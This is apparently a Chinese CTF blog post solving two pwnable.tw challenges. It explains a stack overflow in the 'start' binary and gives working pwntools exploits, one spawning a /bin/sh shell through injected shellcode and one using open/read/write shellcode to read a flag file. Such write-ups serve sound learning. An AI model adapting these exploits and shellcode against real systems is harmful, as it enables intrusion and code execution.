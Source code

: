 ```yaml
---
title: pwnable尝试
author: ch3n9w
typora-root-url: ../
date: 2022-01-27 17:48:33
categories:
  - CTF
---
```


尝试学pwn,放弃学pwn

<!--more-->

## start

下载, 反编译获得如下代码

```
.text:08048060                 public _start
.text:08048060 _start          proc near               ; DATA XREF: LOAD:08048018↑o
.text:08048060                 push    esp
.text:08048061                 push    offset _exit
.text:08048066                 xor     eax, eax
.text:08048068                 xor     ebx, ebx
.text:0804806A                 xor     ecx, ecx
.text:0804806C                 xor     edx, edx
.text:0804806E                 push    ':FTC'
.text:08048073                 push    ' eht'
.text:08048078                 push    ' tra'
.text:0804807D                 push    'ts s'
.text:08048082                 push    2774654Ch
.text:08048087                 mov     ecx, esp        ; addr
.text:08048089                 mov     dl, 14h         ; len
.text:0804808B                 mov     bl, 1           ; fd
.text:0804808D                 mov     al, 4
.text:0804808F                 int     80h             ; LINUX - sys_write
.text:08048091                 xor     ebx, ebx
.text:08048093                 mov     dl, 3Ch ; '<'
.text:08048095                 mov     al, 3
.text:08048097                 int     80h             ; LINUX -
.text:08048099                 add     esp, 14h
.text:0804809C                 retn
.text:0804809C _start          endp ; sp-analysis failed
```

1. esp压栈, 返回地址压栈
2. 清空了eax, ebx, ecx, edx
3. 四次push压入字符串 Let’s start the CTF :
4. 将栈顶地址作为参数移到ecx中
5. 将20移到dl (edx的低八位)中, 20 就是上面字符串的长度
6. sys_write将要向stdout写入, 所以将1移动到bl (ebx的低8位)中
7. 因为要调用的系统调用为sys_write, 所以将其系统呼叫号也就是4移动到al (eax的低八位)中
8. 使用 int 80h 来调用中断, 相当于call, 参数为前面的那些, 至此标准输出中写入了字符串
9. ebx置0, 表示从标准输入中读取
10. 将60传入edx, 表示读取60个字节 (注意这些字节会覆盖原先栈中的字符串)
11. 系统呼叫号置3, 表示使用sys_read调用
12. int 80h来调用中断, 将内容读入ecx中的地址也就是栈顶中
13. 将esp增加20字节
14. 弹栈并执行弹出地址所指向的指令

攻击思路为:

- 程序向栈中写入数据, 然后再将esp增加20然后弹栈执行, 但是我们读取的数据最大有60字节, 那么可以读入超过20字节的数据, 并控制弹栈执行的指令. 如果让弹出执行的指令为sys_write部分的代码, 那么就会泄漏最开始压栈的esp地址
- 泄漏esp地址之后, 进行第二次攻击, 同样是弹出执行sys_write, 接着代码继续执行到sys_read, 这里让程序读入20个垃圾字符, 接下来程序会将esp增加20, 然后再次弹栈执行, 这次弹栈出来要执行的指令的地址 应该是shellcode的地址, 那么shellcode的地址应该是多少呢? 应该是最开始的esp地址加上20, 这里我第一次看的时候想了好久, 可以看这位师傅的图帮助理解https://xuanxuanblingbling.github.io/ctf/pwn/2019/08/30/start/

exp如下

```
from pwn import *
p = remote('chall.pwnable.tw', 10000)
# p = process('./start')
shellcode= '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'

pad = 'a'*20
# pad = pad.decode('utf8')
addr = 0x8048087
payload1 = pad + p32(addr).decode('unicode_escape')
p.send(payload1)
p.recvuntil(":")
oldesp = u32(p.recv(4))
shellcode_addr = oldesp + 20
payload2 = pad + p32(shellcode_addr).decode('unicode_escape') + shellcode
p.send(payload2)
p.interactive()
```

## orw

逆向得到源代码

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 0xC8u);
  ((void (*)(void))shellcode)();
  return 0;
}
```

orw_seccomp 说是限制执行的函数的, 题目说只能执行sys_open sys_read sys_write. 然后接下来程序读取了shellcode并且执行. 所以向程序发送asm代码, 先对flag文件使用sys_open, 然后用sys_read读取内容, 最后使用sys_write 将内容写到标准输出中.

```python
from pwn import *
context(arch='i386',os='linux')
#context(log_level='debug')
io = remote('chall.pwnable.tw',10001)
open_code = '''
mov eax, 0x5; 
push 0x00006761; 
push 0x6c662f77; 
push 0x726f2f65; 
push 0x6d6f682f; 
mov ebx,esp; 
xor ecx,ecx; 
xor edx,edx; 
int 0x80;
'''
read_code = '''
mov ecx, ebx; 
mov ebx, eax;
mov eax, 0x3; 
mov edx, 0x60; 
int 0x80;
'''
write_code = '''
mov eax, 0x4; 
mov ebx, 0x1; 
int 0x80;
'''
payload = asm(open_code+read_code+write_code)
io.recvuntil(':')
io.send(payload)
io.interactive()
```

